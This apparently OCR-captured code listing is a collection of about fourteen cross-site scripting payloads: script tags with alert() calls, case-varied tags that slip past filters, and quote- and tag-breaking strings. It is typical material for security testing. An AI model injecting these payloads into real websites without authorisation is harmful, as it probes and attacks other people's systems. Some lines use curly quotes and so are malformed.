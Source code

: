   <script>alert(123);</script>
  <ScRipT>alert("XSS");</ScRipT>
  <script>alert(123)</script>
  <script>alert("hellox worldss");</script>
  <script>alert(“XSS”)</script> 
  <script>alert(“XSS”);</script>
  <script>alert(‘XSS’)</script>
  “><script>alert(“XSS”)</script>
  <script>alert(/XSS”)</script>
  <script>alert(/XSS/)</script>
  </script><script>alert(1)</script>
  ‘; alert(1);
  ‘)alert(1);//
  <ScRiPt>alert(1)</sCriPt>
